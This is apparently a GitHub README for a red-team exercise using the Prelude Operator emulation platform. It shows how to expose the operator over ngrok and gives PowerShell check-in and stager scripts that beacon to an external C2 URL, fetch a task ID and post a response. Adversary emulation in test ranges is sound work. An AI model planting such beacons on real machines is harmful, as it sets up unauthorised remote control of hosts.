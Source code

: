 # PreludeOperator_QuickCheck
Simple Powershell Prelude Operator Quick Check


## Create a TTP

![Screen Shot 2021-06-25 at 7 37 13 PM](https://user-images.githubusercontent.com/83469949/123498507-82999200-d5ed-11eb-9abd-978f77c68445.png)

## Create an Adversary - Add The TTP

![Screen Shot 2021-06-25 at 7 43 38 PM](https://user-images.githubusercontent.com/83469949/123498525-a8269b80-d5ed-11eb-8a93-941325cca89b.png)

## Ensure Your Prelude Operator is Reachable over HTTP

Ngrok Example 

`ngrok http 3391`

Deploy a Cloud Gateway Redirector

{TODO}

## Execute Checkin PowerShell

```
$Executors = @()
$Executors += 'psh'
$Links = @()

$jsonBase = [pscustomobject]@{
    Name = "Boomer"
    Target = ""
    Hostname = "APTz"
    Location = ""
    Platform = "windows"
    Executors = $executors
    Range = "BoomTown"
	"Pwd" = ""
	"Sleep" = 10
	Executing= ""
    Links = $Links

}

$delivery = $jsonBase | ConvertTo-Json
# Checkin - Get Task

$response = Invoke-RestMethod -Uri "https://boomtown.ngrok.io" -Method Post -Body $delivery -ContentType "application/json"
```

You should have a call back

## Deploy The Adversary To Your BoomTown Range

![Screen Shot 2021-06-25 at 7 37 13 PM](https://user-images.githubusercontent.com/83469949/123498596-2c791e80-d5ee-11eb-9eba-983d6c4cbbcb.png)


## Run The PowerShell Simple Stager

```

$Executors = @()
$Executors += 'psh'
$Links = @()

$jsonBase = [pscustomobject]@{
    Name = "Boomer"
    Target = ""
    Hostname = "APTz"
    Location = ""
    Platform = "windows"
    Executors = $executors
    Range = "BoomTown"
	"Pwd" = ""
	"Sleep" = 10
	Executing= ""
    Links = $Links

}

$delivery = $jsonBase | ConvertTo-Json
# Checkin - Get Task

$response = Invoke-RestMethod -Uri "https://boomtown.ngrok.io" -Method Post -Body $delivery -ContentType "application/json"
$ID = $response.links.ID


# Send Response
$Links += [pscustomobject]@{
    'ID'="$ID";
    'Executor'='psh';
	'Payload'=''
	'Request'= ""
    'Response'="Ready To Roll Out!";
    'Status'='0';
    'Pid'="$Pid"
}

$jsonBase = [pscustomobject]@{
    Name = "Boomer"
    Target = ""
    Hostname = "APTz"
    Location = ""
    Platform = "windows"
    Executors = $executors
    Range = "BoomTown"
	"Pwd" = ""
	"Sleep" = 10
	Executing= ""
    Links = $Links

}

$deliveryResponse = $jsonBase | ConvertTo-Json
$response_delivery = Invoke-RestMethod -Uri "https://boomtown.ngrok.io" -Method Post -Body $deliveryResponse  -ContentType "application/json"
```

## Check Status

![Screen Shot 2021-06-25 at 7 49 29 PM](https://user-images.githubusercontent.com/83469949/123498652-909be280-d5ee-11eb-8a3c-afe20b6133af.png)

![Screen Shot 2021-06-25 at 7 49 41 PM](https://user-images.githubusercontent.com/83469949/123498655-9396d300-d5ee-11eb-8c23-b7c0e59111e6.png)
